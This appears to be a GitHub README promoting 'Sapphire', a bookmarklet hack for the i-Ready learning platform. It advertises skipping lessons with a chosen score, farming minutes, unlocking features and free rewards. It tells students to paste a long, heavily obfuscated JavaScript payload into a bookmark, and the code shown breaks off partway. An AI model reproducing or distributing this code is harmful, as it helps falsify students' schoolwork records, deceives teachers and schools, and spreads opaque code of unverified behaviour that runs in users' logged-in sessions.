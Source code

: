 <p align="center">
<img width="212" height="212" src="https://github.com/Sapphire-Inc/Sapphire/blob/a66e83abf4f082891288f00388a2c9ba4c36d41b/icon.png"/>
</p>

<p align="center">
Welcome to Sapphire, the best i-Ready hack to date.<br><br>
With this hack you can completely remove the stress that comes with doing i-Ready lessons and breeze through your lessons with ease.
</p>

<h2 align="center">Features</h2>

- **Lesson Skipper**: Skip through lessons with any score that you choose without having to complete the lesson.
- **Minute Farmer**: Obtain minutes without having to spend any time on the lesson while having i-Ready open in the background.
- **Enable all permissions**: Enable full access to all features within i-Ready such as learning games, rewards, etc.
- **Free Games**: Makes all rewards cost 0 coins allowing you to play games for free.

<h2 align="center">How to setup the hack.</h2>
<ol>
    <li>Toggle your bookmark bar by pressing <code>Ctrl + Shift + B</code> at the same time on your keyboard. If this doesn't work for you, find an alternative way on Google.</li>
    <li>Right-click an empty space on the bookmark bar and click "Add page".</li>
    <li>In the URL field paste in the bookmark code:<br>
        <pre><code>javascript:void%20function(){function%20wodfbG4(gqsYGxv){return%20c7bg1Q2[-88%3EgqsYGxv%3FgqsYGxv+37:-58%3EgqsYGxv%3F-58%3EgqsYGxv%3F-58%3CgqsYGxv%3FgqsYGxv+94:-58%3EgqsYGxv%3F-58%3CgqsYGxv%3FgqsYGxv-58:-58%3EgqsYGxv%3F-58%3CgqsYGxv%3FgqsYGxv-71:gqsYGxv+87:gqsYGxv-58:gqsYGxv+91:gqsYGxv+82:gqsYGxv-27]}function%20VJ3Wito(c7bg1Q2,gqsYGxv){return%20Object.defineProperty(c7bg1Q2,%22length%22,{value:gqsYGxv,configurable:!0}),c7bg1Q2}function%20Zbyy0m(){try{return%20global||window||new%20Function(%22return%20this%22)()}catch(e){try{return%20this}catch(e){return{}}}}function%20NFIhU8(...gqsYGxv){var%20yJbuoe4=m3yPSyQ(gqsYGxv=%3Ec7bg1Q2[-98%3EgqsYGxv%3FgqsYGxv-59:-98%3CgqsYGxv%3F-68%3CgqsYGxv%3FgqsYGxv-11:-68%3CgqsYGxv%3FgqsYGxv+48:gqsYGxv+97:gqsYGxv+16],1);return%20typeof(gqsYGxv.length=yJbuoe4(-93),gqsYGxv.e0ndfE=gqsYGxv[0]),%22undefined%22!=typeof%20D_xE7rG%26%26D_xE7rG%3Fnew%20D_xE7rG().decode(new%20u457kSb(gqsYGxv.e0ndfE)):%22undefined%22!=typeof%20G50XPAt%26%26G50XPAt%3FG50XPAt.from(gqsYGxv.e0ndfE).toString(%22utf-8%22):bHK_Oj8(gqsYGxv.e0ndfE)}function%20cOjySPZ(...gqsYGxv){var%20D_xE7rG=m3yPSyQ(gqsYGxv=%3Ec7bg1Q2[-9%3CgqsYGxv%3F-9%3CgqsYGxv%3F-9%3CgqsYGxv%3FgqsYGxv+8:gqsYGxv+87:gqsYGxv+93:gqsYGxv-27],1);switch(typeof(gqsYGxv.length=1,gqsYGxv[D_xE7rG(7)]=38,gqsYGxv[D_xE7rG(19)]=fRPLwmU(91),gqsYGxv[2]=fRPLwmU[D_xE7rG(2)](wodfbG4(-81),[gqsYGxv[wodfbG4(-72)]+34]),gqsYGxv[3]=fRPLwmU(65),gqsYGxv[gqsYGxv[144]-(gqsYGxv[D_xE7rG(7)]-4)]=fRPLwmU[wodfbG4(-77)](void%200,[50]),gqsYGxv[wodfbG4(-65)]=[fRPLwmU(gqsYGxv[144]-(gqsYGxv[wodfbG4(-72)]-49)),fRPLwmU(49),fRPLwmU(D_xE7rG(8))],gqsYGxv[D_xE7rG(-5)]={WAlRDE:fRPLwmU[D_xE7rG(2)](void%200,[41]),LOBZuK:fRPLwmU(54),CzS2NgJ:fRPLwmU(57),RyiPeXR:fRPLwmU(62),o4mqVHz:fRPLwmU(70)},gqsYGxv.T0UKzFk=fRPLwmU(38),gqsYGxv[8]=fRPLwmU(gqsYGxv[144]-3),gqsYGxv[9]=fRPLwmU(wodfbG4(-80)),gqsYGxv.PZzlp3=fRPLwmU(29),gqsYGxv[gqsYGxv[144]-27]=D_xE7rG(-2)),gqsYGxv[0]){case-80%3Cgm7NiX9.ZcAKhwn%3F-604:D_xE7rG(-2):gqsYGxv[gqsYGxv[D_xE7rG(7)]-27]=fRPLwmU[D_xE7rG(2)](void%200,[wodfbG4(-70)])||Jvka6e7[fRPLwmU(D_xE7rG(9))];break;case-wodfbG4(-69):return%20lveDxmA[fRPLwmU(29)]||Jvka6e7[gqsYGxv.PZzlp3];case%20wodfbG4(-68):return%20lveDxmA[vhiZu34]||Jvka6e7[fRPLwmU(30)];case-wodfbG4(-71):gqsYGxv[gqsYGxv[144]-(gqsYGxv[144]-11)]=gqsYGxv[9]||Jvka6e7[Oz6bwi.kybxeW];break;case%20349:return%20lveDxmA[fRPLwmU(gqsYGxv[144]-6)]||Jvka6e7[fRPLwmU(32)];case%20198:return%20lveDxmA[fRPLwmU(D_xE7rG(16))]||Jvka6e7[fRPLwmU(33)];case%20747:return%20lveDxmA[fRPLwmU(34)]||Jvka6e7[fRPLwmU(34)];case%204443:gqsYGxv[D_xE7rG(3)]=gqsYGxv[8]||Jvka6e7[Oz6bwi.W_5Z9m+%22on%22];break;case%204337:gqsYGxv[gqsYGxv[144]-27]=fRPLwmU(gqsYGxv[144]-1)||Jvka6e7[fRPLwmU(37)];break;case%203499:return%20lveDxmA[gqsYGxv.T0UKzFk]||Jvka6e7[PoqJaj4];case-80%3Cgm7NiX9.ZcAKhwn%3F2976:-17:gqsYGxv[wodfbG4(-76)]=fRPLwmU(39)||Jvka6e7[fRPLwmU(39)];break;case%203182:gqsYGxv[D_xE7rG(3)]=A0fZOq||Jvka6e7[gqsYGxv[D_xE7rG(-5)].WAlRDE+fRPLwmU(42)+fRPLwmU(43)];break;case%20gm7NiX9.aj79foI()%3F2289:D_xE7rG(17):gqsYGxv[D_xE7rG(3)]=fRPLwmU(44)+fRPLwmU(45)||Jvka6e7[fRPLwmU(46)];break;case%20gm7NiX9.aj79foI()%3F14:-21:return%20lveDxmA[fRPLwmU[wodfbG4(-77)](void%200,[47])]||Jvka6e7[fRPLwmU(47)];case%20gm7NiX9.Jnj75T_()%3F3553:211:gqsYGxv[wodfbG4(-76)]=fRPLwmU[wodfbG4(-79)](D_xE7rG(-2),wodfbG4(-66))+D_xE7rG(12)||Jvka6e7[fRPLwmU(D_xE7rG(13))+%22nt%22];break;case-80%3Cgm7NiX9.ZcAKhwn%3F1144:-63:gqsYGxv[11]=gqsYGxv[wodfbG4(-65)][D_xE7rG(-8)]||Jvka6e7[gqsYGxv[5][D_xE7rG(-4)]];break;case%202604:gqsYGxv[wodfbG4(-76)]=fRPLwmU(50)||Jvka6e7[gqsYGxv[gqsYGxv[144]-34]];break;case-80%3Cgm7NiX9.ZcAKhwn%3F4618:-132:return%20lveDxmA[fRPLwmU(51)]||Jvka6e7[fRPLwmU(51)];case%20469:gqsYGxv[11]=fRPLwmU(D_xE7rG(15))||Jvka6e7[fRPLwmU(D_xE7rG(15))];break;case%20gqsYGxv[gqsYGxv[wodfbG4(-72)]+D_xE7rG(18)]+3368:gqsYGxv[wodfbG4(-76)]=fRPLwmU.apply(D_xE7rG(-2),[53])||Jvka6e7[fRPLwmU[wodfbG4(-79)](void%200,53)];break;case%20517:gqsYGxv[11]=gqsYGxv[gqsYGxv[144]-32].LOBZuK||Jvka6e7[tGjQWA];break;case%201619:gqsYGxv[wodfbG4(-76)]=fRPLwmU(55)||Jvka6e7[fRPLwmU(56)+%22on%22];break;case%20gqsYGxv[D_xE7rG(7)]+3048:return%20lveDxmA[gqsYGxv[gqsYGxv[144]-D_xE7rG(16)][2]]||Jvka6e7[gqsYGxv[6].CzS2NgJ];case%20gm7NiX9.aj79foI()%3FgqsYGxv[D_xE7rG(7)]+2704:118:return%20lveDxmA[fRPLwmU.apply(wodfbG4(-81),[58])]||Jvka6e7[fRPLwmU(58)];case%20gqsYGxv[wodfbG4(-72)]+2950:return%20lveDxmA[fRPLwmU(59)]||Jvka6e7[fRPLwmU(59)];case%20gm7NiX9.aj79foI()%3F2209:172:gqsYGxv[11]=cIgtvcT[wodfbG4(-83)]||Jvka6e7[fRPLwmU(60)];break;case%201051:gqsYGxv[wodfbG4(-76)]=fRPLwmU(61)||Jvka6e7[gqsYGxv[D_xE7rG(-5)].RyiPeXR+fRPLwmU.call(void%200,wodfbG4(-85))];break;case%20gm7NiX9.aj79foI()%3F720:-118:gqsYGxv[wodfbG4(-76)]=fRPLwmU(D_xE7rG(17))||Jvka6e7[gqsYGxv[gqsYGxv[wodfbG4(-72)]-35]+fRPLwmU(66)+%22or%22];break;case%20gm7NiX9.Jnj75T_()%3F4226:110:return%20lveDxmA[fRPLwmU(67)]||Jvka6e7[fRPLwmU(68)+fRPLwmU(69)];case%20gm7NiX9.Jnj75T_()%3F1201:66:gqsYGxv[11]=gqsYGxv[gqsYGxv[144]-(gqsYGxv[wodfbG4(-72)]-6)].o4mqVHz||Jvka6e7[fRPLwmU(70)];break;case%202037:gqsYGxv[gqsYGxv[wodfbG4(-72)]-27]=fRPLwmU(71)||Jvka6e7[fRPLwmU(71)];break;case%204842:gqsYGxv[11]=fRPLwmU(72)||Jvka6e7[gqsYGxv[2]];break;case%20gm7NiX9.Jnj75T_()%3F2302:-(gqsYGxv[144]-14):return%20lveDxmA[fRPLwmU(gqsYGxv[D_xE7rG(7)]+35)]||Jvka6e7[fRPLwmU(gqsYGxv[144]+35)];case%20163:return%20lveDxmA[fRPLwmU(gqsYGxv[gqsYGxv[D_xE7rG(7)]+wodfbG4(-61)]+36)]||Jvka6e7[fRPLwmU(75)+fRPLwmU.apply(void%200,[76])+%22l%22];case%201055:return%20lveDxmA[fRPLwmU(77)+fRPLwmU(78)]||Jvka6e7[fRPLwmU(79)];case%20gm7NiX9.aj79foI()%3F3506:-(gqsYGxv[144]+164):return%20lveDxmA[fRPLwmU(80)]||Jvka6e7[fRPLwmU(80)];case%2039:return%20lveDxmA[fRPLwmU[wodfbG4(-79)](D_xE7rG(-2),81)+fRPLwmU(gqsYGxv[D_xE7rG(7)]+44)+%22sk%22]||Jvka6e7[fRPLwmU(83)];case%20815:return%20lveDxmA[fRPLwmU(D_xE7rG(-7))]||Jvka6e7[fRPLwmU(wodfbG4(-86))];case%204584:return%20lveDxmA[hKWXIT0+%22te%22]||Jvka6e7[fRPLwmU[D_xE7rG(2)](D_xE7rG(-2),[86])];case%20717:return%20lveDxmA[fRPLwmU(87)]||Jvka6e7[fRPLwmU(87)];case%205200:gqsYGxv[11]=cIgtvcT[2]||Jvka6e7[fRPLwmU(gqsYGxv[wodfbG4(-72)]+50)];break;case-80%3Cgm7NiX9.ZcAKhwn%3F1073:-(gqsYGxv[wodfbG4(-72)]+197):return%20lveDxmA[fRPLwmU(89)]||Jvka6e7[fRPLwmU(gqsYGxv[144]-(gqsYGxv[D_xE7rG(7)]-89))];case%20gm7NiX9.ZcAKhwn%3E-(gqsYGxv[wodfbG4(-72)]+42)%3FgqsYGxv[144]+4142:125:return%20lveDxmA[fRPLwmU(90)]||Jvka6e7[fRPLwmU.apply(void%200,[90])];case%20gm7NiX9.aj79foI()%3FgqsYGxv[wodfbG4(-72)]+3562:-202:gqsYGxv[wodfbG4(-76)]=fRPLwmU.call(D_xE7rG(-2),gqsYGxv[144]+53)||Jvka6e7[gqsYGxv[wodfbG4(-60)]];}if(gqsYGxv[gqsYGxv[wodfbG4(-72)]+106]%3EgqsYGxv[D_xE7rG(7)]+130)return%20gqsYGxv[gqsYGxv[D_xE7rG(7)]-134];var%20u457kSb=m3yPSyQ(gqsYGxv=%3Ec7bg1Q2[-36%3CgqsYGxv%3F-6%3EgqsYGxv%3F-6%3CgqsYGxv%3FgqsYGxv+45:-6%3CgqsYGxv%3FgqsYGxv+44:-6%3EgqsYGxv%3F-36%3EgqsYGxv%3FgqsYGxv+15:gqsYGxv+35:gqsYGxv+23:gqsYGxv+83:gqsYGxv-42],1);return%20lveDxmA[gqsYGxv[u457kSb(-24)]]||Jvka6e7[gqsYGxv[11]]}function%20_18eSmz(gqsYGxv){var%20D_xE7rG=m3yPSyQ(gqsYGxv=%3Ec7bg1Q2[-47%3EgqsYGxv%3F-47%3CgqsYGxv%3FgqsYGxv+36:-47%3CgqsYGxv%3FgqsYGxv-30:-47%3EgqsYGxv%3F-77%3CgqsYGxv%3F-77%3EgqsYGxv%3FgqsYGxv-20:-47%3CgqsYGxv%3FgqsYGxv+25:gqsYGxv+76:gqsYGxv-75:gqsYGxv-82:gqsYGxv-29],1);const%20u457kSb=%22ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!%23$%25%26()*+,./:;%3C=%3E%3F%40[]^_`{|}~\%22%22,G50XPAt=%22%22+(gqsYGxv||%22%22),yJbuoe4=G50XPAt.length,E3N75UI=[];let%20bHK_Oj8=wodfbG4(-87),hKWXIT0=wodfbG4(-87),tGjQWA=-1;for(let%20A0fZOq=D_xE7rG(-76);A0fZOq%3CyJbuoe4;A0fZOq++){var%20PoqJaj4=m3yPSyQ(gqsYGxv=%3Ec7bg1Q2[73%3CgqsYGxv%3F73%3EgqsYGxv%3FgqsYGxv-39:103%3EgqsYGxv%3F73%3EgqsYGxv%3FgqsYGxv+73:73%3EgqsYGxv%3FgqsYGxv+59:73%3EgqsYGxv%3FgqsYGxv-4:73%3CgqsYGxv%3F103%3EgqsYGxv%3F103%3EgqsYGxv%3FgqsYGxv-74:gqsYGxv+91:gqsYGxv+64:gqsYGxv-20:gqsYGxv-55:gqsYGxv-31],1);const%20vhiZu34=u457kSb.indexOf(G50XPAt[A0fZOq]);if(vhiZu34!==-PoqJaj4(78))if(tGjQWA%3CPoqJaj4(74))tGjQWA=vhiZu34;else{var%20EkeB8w=m3yPSyQ(gqsYGxv=%3Ec7bg1Q2[40%3CgqsYGxv%3FgqsYGxv+64:10%3EgqsYGxv%3FgqsYGxv-17:10%3EgqsYGxv%3FgqsYGxv-30:10%3EgqsYGxv%3FgqsYGxv+54:40%3EgqsYGxv%3FgqsYGxv-11:gqsYGxv-34],1);void(tGjQWA+=91*vhiZu34,bHK_Oj8|=tGjQWA%3C%3ChKWXIT0,hKWXIT0+=88%3C(8191%26tGjQWA)%3F13:14);do%20typeof(E3N75UI.push(255%26bHK_Oj8),bHK_Oj8%3E%3E=PoqJaj4(102),hKWXIT0-=wodfbG4(-59));while(7%3ChKWXIT0);tGjQWA=-EkeB8w(15)}}return%20tGjQWA%3E-D_xE7rG(-72)%26%26E3N75UI.push(255%26(bHK_Oj8|tGjQWA%3C%3ChKWXIT0)),NFIhU8(E3N75UI)}function%20fRPLwmU(c7bg1Q2,gqsYGxv,D_xE7rG,u457kSb=_18eSmz,G50XPAt=MYjS9GS){return%20D_xE7rG%3FgqsYGxv[MYjS9GS[D_xE7rG]]=fRPLwmU(c7bg1Q2,gqsYGxv):(gqsYGxv%26%26([G50XPAt,gqsYGxv]=[u457kSb(G50XPAt),c7bg1Q2||D_xE7rG]),gqsYGxv%3Fc7bg1Q2[G50XPAt[gqsYGxv]]:MYjS9GS[c7bg1Q2]||(D_xE7rG=(G50XPAt[c7bg1Q2],u457kSb),MYjS9GS[c7bg1Q2]=D_xE7rG(A6Twwm[c7bg1Q2])))}function%20Kiid84(){return[0,84,63,6,1,18,void%200,31,%22call%22,10,%22apply%22,11,12,15,20,144,57,28,346,732,%22nt%22,48,5,52,33,64,106,%22PreT_aq%22,8]}function%20m3yPSyQ(c7bg1Q2,gqsYGxv){var%20D_xE7rG=function(){return%20c7bg1Q2(...arguments)};return%20Object.defineProperty(D_xE7rG,%22length%22,{value:gqsYGxv,configurable:!0}),D_xE7rG}var%20c7bg1Q2,gqsYGxv,D_xE7rG,u457kSb,G50XPAt,yJbuoe4,E3N75UI,bHK_Oj8,hKWXIT0,tGjQWA,A0fZOq,PoqJaj4,vhiZu34,EkeB8w,l3yV9zv,cIgtvcT,Oz6bwi,p3n0km7,Hgut65,gm7NiX9;c7bg1Q2=Kiid84.call(this);var%20MYjS9GS=[],Hxt2bEW=wodfbG4(-87),A6Twwm=m3yPSyQ((...gqsYGxv)=%3E{var%20D_xE7rG=m3yPSyQ(gqsYGxv=%3Ec7bg1Q2[-32%3EgqsYGxv%3F-62%3EgqsYGxv%3FgqsYGxv+32:-62%3CgqsYGxv%3F-32%3CgqsYGxv%3FgqsYGxv+37:-62%3EgqsYGxv%3FgqsYGxv+62:-32%3EgqsYGxv%3FgqsYGxv+61:gqsYGxv+66:gqsYGxv-72:gqsYGxv-80],1);return%20gqsYGxv.length=D_xE7rG(-61),gqsYGxv[D_xE7rG(-60)]=gqsYGxv.fhDtzr,!(gqsYGxv[84]=m3yPSyQ(gqsYGxv=%3E{for(var%20D_xE7rG,u457kSb,c7bg1Q2=16;0==c7bg1Q2%254;c7bg1Q2++)u457kSb=0,gqsYGxv=gqsYGxv.concat(m3yPSyQ(()=%3E{var%20D_xE7rG;if(u457kSb++,1===u457kSb)return[];for(D_xE7rG=74;D_xE7rG;D_xE7rG--)gqsYGxv.unshift(gqsYGxv.pop());return[]},0)());for(D_xE7rG=46;D_xE7rG;D_xE7rG--)gqsYGxv.unshift(gqsYGxv.pop());return%20gqsYGxv},1)([%22[i/2s)%40Yg%23c.B%22,%22arU=i%3EueG%22,%22EE0=f,3B%22,%22EE0=f,F*2$9/B%22,%228DVKa%22,%22Y2~zT%22,%22vzbgN:8eG%22,%22Q5zg7=YC%22,%22_q.Je,]%40G%22,%22=7U==[${lT%22,%22=7U==[cC%22,%22tG%3Ef]*yC%22,%22gzzgh`A%22,%22vz.Jn`A%22,%22kz0=r%40A%22,%22X,jg/w*N2T5%22,%22X,jg/wuC%22,%22prFK%22,%22}Oufp%40\%22%40s!1HwbRnXB%22,%22}Oufp%40UC%22,%227Jmfh%40uC%22,%22%25DU=c,+MM%25`+B%22,%22%25DU=c,vB%22,%22[z/2c%22,%227!zI;w*N2T5%22,%22ePVKH:we2$,/B%22,%22=imfo%40s0W$8%26PyO%22,%22eP(gz=!eKUGv*E%22,%22=imfo%40i%40r%25%40+pQKm%22,%22=imfo%403B%22,%22r5_1b^MC%22,%22eP(g%3E%3CkC%22,%22hM+f=[UC%22,%22eP(g%3E%3Cwe8!\%22ui9M%22,%22=imfo%40):W$Rz%40P_oKB%22,%22d8mfg,%23B%22,%222J0=%40[MC%22,%22d8mfg,e0rR(%26hQ0oQB%22,%2232kdL3A%22,%2232%23c7=cC%22,%2232%23c7=:Y%3CR%22,%22~OVK%22,%228D%40J%22,%22CPH%3C86%26YH%22,%22CPH%3Co2MCH%22,%22W,52e%3EiC%22,%22gDCz$uFN%408iw(]nf%40lk=3%23.SG$F6r+bpH%23h.l/rB%22,%22}t=aG*A%22,%22c,42[hU07U4ENQ5qp:A2YvAe%234O]5kG%22,%22RJa;\%22t/N!4E6B%22,%22i:z.``I6$Pi%3Cna+l{i,%3C(%3F|`hJfHf]yof2M3N[iC%22,%22lz]I)wJB0TQY$b1o[ig/%3F3uChS%22,%22R8b.F[DZD$[4+NFSul+,;!oo%401A.F_}cJMB281gC%22,%22,qHJ7=MSq!z%3CXyra{/Q%3EQ%22,%22XPU=%3E[aC%22,%22dP(gt%40mCmUW6GF%22,%22]DwJb%22,%22l5VKR[9`aI$%26.P;m;ZAxf,6YfVsxO99Qjr2f7=A%22,%22,z_1Z%22,%22,X,%3C:Wy{2$%40%23,a,l.I01/WT[G$9t08jLGE$JO%3EmCcS,/%23myU%25qC=(.H[P1%3F%23Z9Win,2,e%3E.{C$q3N.4P\%22ye3/Wzvx%236tH^Qn)l01z;eGR%23S6=EHn7J^IY%40%26YwS90ix9jsoB%22,%22{zYJg,A%22,%22~ZB2w)we$yd6mx%26kbGdE[hGM7F40k^$k%3E]uZ[hRdAG=598DMDSzg_%3CrN8y+/fy8jbGN%3Cr%40eeKUet3^;mG=;Ci%3EP1r%25!%26gbeLoaIh3+bBn%25L)zC_Q9\%22B9Akm:;C5p|Ly%23;44beLs%3C%3Cve%3EFZ3$Q]lB:U+_/.}/tNN!60(C%22,%22l5VKR[9`aI$%26.P;m;ZAxf,6YfVsxO99Qw5dKc,_YfI}uGF3iDEFKeh!{W$y%22,%22fP1Kd%22,%22dP%40Jv)ceG%22,%22K2)1O:}Y%25y|+58DMl5VKR[9`aI901.%3FijrdKL:EIL%25h%25L^rm+LG3%23:Mum$lw1YYiurbKY%3CGI8!T%3C`%40PiWutanl;%3FnRL;3mdQ42Dwhq^RsRb6{x|VK2)1O:}Y%25y|+58DMl5VKR[9`aI901.%3FijrdKL:EIL%25h%25L^rm+LG3%23:Mum$lw1YYiurbKY%3CGI8!T%3C`%40toHu%40JM:6eOId.C*QV}1)1O:}Y~Ko%26H^cj%26`B%22,%22ar$Jg,_Yj8Z%25Q^\%22p%22,%22brWf~%3CUC%22,%22qaNKj%3EN1H%22,%22c8NK86QIr%25y%22,%22}1(g7+UC%22,%22r5PEt)wC%22,%22+Gbgo%40SC%22,%22CXbge,A%22,%22;i_1[[A%22,%22brWf~%3C\%22%40qU%22,%22RP)=l/A%22,%22DSzg_%3CUC%22,%225a$Jf%3E4C%22,%22nrNKr2JTc%25j3pE%22,%22ar%252L:7;G%22,%22jrWf=[${lT%22,%22jrWf=[cC%22,%22f5bgY%22,%22e5/2Y%22,%229on%3C`*MC%3CR%22,%22toX%3C5+ges74EO9wn3o_1%40[A%22,%22toX%3C5+UC%22,%220z|/W%3EkC%22,%22nrTg6=yC%22,%22[i/2s)iC%22,%22nX,%3Cc%22])),(Hxt2bEW%3FgqsYGxv[D_xE7rG(-60)].pop():Hxt2bEW++,gqsYGxv[84])},0)();gqsYGxv=Zbyy0m()||{},D_xE7rG=gqsYGxv.TextDecoder,u457kSb=gqsYGxv.Uint8Array,G50XPAt=gqsYGxv.Buffer,yJbuoe4=gqsYGxv.String||String,E3N75UI=gqsYGxv.Array||Array,bHK_Oj8=m3yPSyQ(()=%3E{var%20D_xE7rG,u457kSb,gqsYGxv=new%20E3N75UI(128);return%20D_xE7rG=yJbuoe4.fromCodePoint||yJbuoe4.fromCharCode,!(u457kSb=[]),m3yPSyQ(G50XPAt=%3E{function%20hKWXIT0(G50XPAt){return%20c7bg1Q2[55%3CG50XPAt%3F55%3CG50XPAt%3F85%3EG50XPAt%3F55%3EG50XPAt%3FG50XPAt-25:G50XPAt-56:G50XPAt-79:G50XPAt-22:G50XPAt+47]}var%20E3N75UI,bHK_Oj8,tGjQWA,A0fZOq;for(E3N75UI=G50XPAt.length,!(u457kSb.length=hKWXIT0(56)),bHK_Oj8=hKWXIT0(56);bHK_Oj8%3CE3N75UI;){if(A0fZOq=G50XPAt[bHK_Oj8++],127%3E=A0fZOq)tGjQWA=A0fZOq;else%20if(223%3E=A0fZOq){var%20PoqJaj4=m3yPSyQ(G50XPAt=%3Ec7bg1Q2[66%3EG50XPAt%3F66%3CG50XPAt%3FG50XPAt-41:66%3EG50XPAt%3F66%3EG50XPAt%3F36%3CG50XPAt%3F36%3EG50XPAt%3FG50XPAt-2:36%3CG50XPAt%3F36%3CG50XPAt%3F66%3EG50XPAt%3FG50XPAt-37:G50XPAt+61:G50XPAt-40:G50XPAt+90:G50XPAt+86:G50XPAt+6:G50XPAt-70:G50XPAt-6],1);tGjQWA=(A0fZOq%26wodfbG4(-80))%3C%3CPoqJaj4(40)|63%26G50XPAt[bHK_Oj8++]}else%20if(239%3E=A0fZOq){var%20vhiZu34=m3yPSyQ(G50XPAt=%3Ec7bg1Q2[-44%3CG50XPAt%3F-14%3EG50XPAt%3FG50XPAt+43:G50XPAt+87:G50XPAt+51],1);tGjQWA=(A0fZOq%26vhiZu34(-30))%3C%3C12|(G50XPAt[bHK_Oj8++]%26wodfbG4(-85))%3C%3C6|63%26G50XPAt[bHK_Oj8++]}else%20if(yJbuoe4.fromCodePoint){var%20EkeB8w=m3yPSyQ(G50XPAt=%3Ec7bg1Q2[37%3EG50XPAt%3FG50XPAt+71:67%3CG50XPAt%3FG50XPAt+48:67%3EG50XPAt%3F37%3EG50XPAt%3FG50XPAt+74:37%3EG50XPAt%3FG50XPAt-75:67%3CG50XPAt%3FG50XPAt-4:37%3CG50XPAt%3F67%3EG50XPAt%3FG50XPAt-38:G50XPAt-23:G50XPAt-7:G50XPAt+56],1);tGjQWA=(7%26A0fZOq)%3C%3CwodfbG4(-82)|(G50XPAt[bHK_Oj8++]%26hKWXIT0(58))%3C%3C12|(63%26G50XPAt[bHK_Oj8++])%3C%3CwodfbG4(-84)|G50XPAt[bHK_Oj8++]%26EkeB8w(40)}else%20tGjQWA=63,!(bHK_Oj8+=3);u457kSb.push(gqsYGxv[tGjQWA]||(gqsYGxv[tGjQWA]=D_xE7rG(tGjQWA)))}return%20u457kSb.join(%22%22)},1)},0)(),!VJ3Wito(NFIhU8,wodfbG4(-83)),typeof(hKWXIT0=fRPLwmU(85),tGjQWA=fRPLwmU(54),A0fZOq=fRPLwmU.apply(wodfbG4(-81),[40]),PoqJaj4=fRPLwmU(38),vhiZu34=fRPLwmU(30),EkeB8w=fRPLwmU(19),l3yV9zv=fRPLwmU(wodfbG4(-82)),cIgtvcT=[fRPLwmU.apply(wodfbG4(-81),[16]),fRPLwmU(60),fRPLwmU[wodfbG4(-79)](wodfbG4(-81),88)],Oz6bwi={Ze39T_f:fRPLwmU(wodfbG4(-75)),kybxeW:fRPLwmU(wodfbG4(-80)),W_5Z9m:fRPLwmU[wodfbG4(-77)](void%200,[36])},p3n0km7=fRPLwmU(wodfbG4(-76)),Hgut65=fRPLwmU(9),gm7NiX9=m3yPSyQ(()=%3E{var%20c7bg1Q2={AYX0G4l:[],aj79foI:m3yPSyQ((c7bg1Q2=fRPLwmU[wodfbG4(-79)](wodfbG4(-81),wodfbG4(-59)))=%3E(gm7NiX9.t9Ebd9[0]||gm7NiX9.t9Ebd9.push(-77),gm7NiX9.t9Ebd9[c7bg1Q2]),0),Jnj75T_:m3yPSyQ((c7bg1Q2=fRPLwmU(8))=%3E(gm7NiX9.AYX0G4l[0]||gm7NiX9.AYX0G4l.push(-85),gm7NiX9.AYX0G4l[c7bg1Q2]),0),t9Ebd9:[],ZcAKhwn:35};return%20c7bg1Q2},0)());var%20lveDxmA,Jvka6e7,yfCzIF=function(){function%20u457kSb(gqsYGxv){return%20c7bg1Q2[81%3EgqsYGxv%3FgqsYGxv-1:111%3EgqsYGxv%3F81%3EgqsYGxv%3FgqsYGxv-59:111%3CgqsYGxv%3FgqsYGxv-48:81%3CgqsYGxv%3FgqsYGxv-82:gqsYGxv-78:gqsYGxv-85]}var%20gqsYGxv,D_xE7rG;return%20typeof(gqsYGxv=function(){try{return%20window||global||new%20Function(Hgut65)()}catch(e){return%20D_xE7rG[fRPLwmU(wodfbG4(-78))](this)}},D_xE7rG=function(){try{return%20this}catch(e){return%20null}}),Jvka6e7=D_xE7rG[fRPLwmU(u457kSb(91))](this,cOjySPZ),lveDxmA=gqsYGxv[fRPLwmU(u457kSb(91))](this)}[fRPLwmU(10)]();(async()=%3E{function%20u457kSb(gqsYGxv){return%20c7bg1Q2[127%3EgqsYGxv%3F127%3CgqsYGxv%3FgqsYGxv+57:97%3CgqsYGxv%3F97%3CgqsYGxv%3F127%3CgqsYGxv%3FgqsYGxv-68:127%3CgqsYGxv%3FgqsYGxv-80:127%3CgqsYGxv%3FgqsYGxv+23:127%3CgqsYGxv%3FgqsYGxv-40:127%3CgqsYGxv%3FgqsYGxv+80:gqsYGxv-98:gqsYGxv-76:gqsYGxv-26:gqsYGxv-72]}var%20gqsYGxv,D_xE7rG;if(gqsYGxv=[fRPLwmU[wodfbG4(-77)](wodfbG4(-81),[22]),fRPLwmU(26),fRPLwmU(27)],!(D_xE7rG={jBJTpl:fRPLwmU(17)}),p3n0km7!==location[Oz6bwi.Ze39T_f]){function%20yJbuoe4(gqsYGxv){return%20c7bg1Q